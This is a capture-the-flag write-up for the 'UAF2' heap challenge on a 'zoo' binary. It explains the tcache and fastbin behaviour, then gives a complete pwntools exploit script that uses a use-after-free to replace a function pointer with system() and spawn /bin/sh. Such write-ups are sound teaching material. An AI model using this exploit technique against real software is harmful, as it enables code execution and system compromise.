



# UAF2
## Challenge Details

## Analysis
As the code of the challenge is similar to [UAF](uaf.md) challenge, I used `diff` to find the difference to save some time.



You can see there are only two main differences:
1. No `get_shell()` anymore but the `system()` is still used to find the current time. So, our goal this time is to modify the address of `speak()` to `system()` and the value of name to `/bin/sh`
2. The size of the name is now fixed to `0x18`. Therefore, all the chunk size will be `0x20`, which means the attack used in [UAF](uaf.md) cannot be applied again.

But after looking into the binary, something abnormal appeared:


Notice the fastbin show that something is corrupted. Thus, I try testing the fastbin by filling up the `tcache` with animals (each tcache bin can hold 7 chunk at maximum, so 4 animals will create 8 chunk and one chunk should go to fastbin instead).

This time the chunk did not go to fastbin. If we allocate a new animal, the 2 chunks created are not connected anymore. Hence, there should be some combination that shifted the chunk and write to the destinated region.

After testing different combinations, I have come up the following solution.

## Solution
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

e = ELF('./zoo')
r = gdb.debug('./zoo', 'b* remove_animal\nc')
# r = remote('chal.hkcert22.pwnable.hk', 28236)
def create(data):
    r.sendlineafter(b'Exit\n> ', b'1')
    r.sendlineafter(b'2) Panda', b'1')
    r.sendafter(b'animal?', data)

def delete(id):
    r.sendlineafter(b'Exit\n> ', b'2')
    r.sendlineafter(b'(0-9)', str(id).encode())

def report(id):
    r.sendlineafter(b'Exit\n> ', b'3')
    r.sendlineafter(b'(0-9)', str(id).encode())

# 0 - 3
for i in range(4):
    create(b'A' * 0x18)

# 0 - 3
for i in range(4):
    delete(3 - i)

# 4
create(p64(e.symbols['system']))

# 5 - 8
for i in range(4):
    create(b'A' * 0x18)
delete(8)
delete(7)
delete(5)
delete(6)

create(b'/bin/sh\0')
report(1)
r.interactive()
```